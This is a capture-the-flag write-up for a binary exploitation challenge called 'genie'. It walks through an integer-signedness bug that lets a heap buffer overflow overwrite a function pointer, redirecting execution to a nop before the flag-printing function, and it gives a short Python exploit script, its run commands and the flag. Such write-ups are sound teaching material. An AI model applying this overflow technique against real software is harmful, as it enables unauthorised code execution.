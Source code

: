## Genie

[genie](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/genie/genie)  
[genie.c](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/genie/genie.c)

> By looking at the code, we can immediately tell that we have to enter the `execute_genie()` function as it prints out the flag.

```C
void execute_genie() {
    puts("Hues bowed to the sky.");
    puts("Alluring thousands of eyes.");
    puts("A magical dyes.");
    system("cat /home/genie/flag.txt");
}
```

> The next thing is to look out for potential vulnerabilities in the code.

```C
struct magicPouch {
    unsigned char guesses[48];
    void (*release)();
};
```

> From the struct above, we can tell that the guesses are stored 1 by 1 in the magic pouch in an array of size 48. If we are able to overflow the array, we can override into `(*release)`.

```C
int main() {

  ...
  ...
  int number;
  printf("Force is strong all around forty-eight; how many guesses would you like to make? ");
  scanf("%d", &number);

  if (number > 48) {
      puts("You ask Genie for the impossible.\n");
      number = 0;
    } else {
      askGenie(little_magicPouch, number);
    }  
  ...
  ...

}
```
> Moreover, there is also a restriction on the number of guesses to be less than 48.

> However, if we input -1, the number of guesses becomes infinite because the number variable is a signed integer, which is then passed into `askGenie()`, a function that takes an unsigned integer as input. (-1 is a very big number when unsigned)

```C
void askGenie(struct magicPouch * mp, unsigned int number) {
    printf("Genie grants you %d guesses\n", number);

    for (int i = 0; i < number; i++) {
        printf("What is your guess? ");
        unsigned int guess;
        scanf("%d", &guess);
        printf("Guess %d: %d\n", i + 1, guess);
	if (guess == 0) {
	    break;
        }

        mp->guesses[i] = guess & 0x000000ff;
    }
}
```

> This means that in the struct `magicPouch`, we can overflow the array and write into `(*release)` using the 49th-52nd guesses. (As char is 1 byte only) (Overflowing the heap)

> Now we need to decide what to write into the release pointer. Attempting to write the address of the `execute_genie()` function does not work because of this portion of the code.

```C
int main() {

  ...
  ...
  if ((void *)*little_magicPouch -> release >= (void *)&execute_genie) {
    return 0;
  }

  if (number != 0) {
    little_magicPouch -> release();
  }

  free(little_magicPouch);
}
```

> If the address of release is the same as execute_genie, then release() would not run. Hence we cannot simply input its address. However, in the `objdmp`, we can note that there is a `nop` instruction just before execute_genie. A [no-operation](https://en.wikipedia.org/wiki/NOP_(code)) (or nop) instruction, as the name suggests, does nothing. It is used as a placeholder, and will simply just go to the next instruction.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/genie/objdmp.png)  

> Thus, if we jump to the nop instruction instead (at address `0x4013a8`) which is of a different address from the `execute_genie()` function, the if check will not be fulfilled and we can successfully run execute_genie() to get the flag.

> We have to split the hexadecimal address of nop and convert them to decimal, while also ensuring little endian ordering. Guess 52 is 0 to break out of the loop.

```python
print("-1")
for i in range(48):
    print("1")
print(int("0xa8", base=16)) # Guess 49: 168
print(int("0x13", base=16)) # Guess 50: 19
print(int("0x40", base=16)) # Guess 51: 64
print("0")
```
[exploit.py](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/genie/exploit.py)

> We can use the stdout as our input to the genie executable as follows:

```
python3 exploit.py > genieinput
./genie < genieinput
```

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/genie/Solved.png)  

`CS2107{y0u_4r3_the_rEAL_gEn1e}`
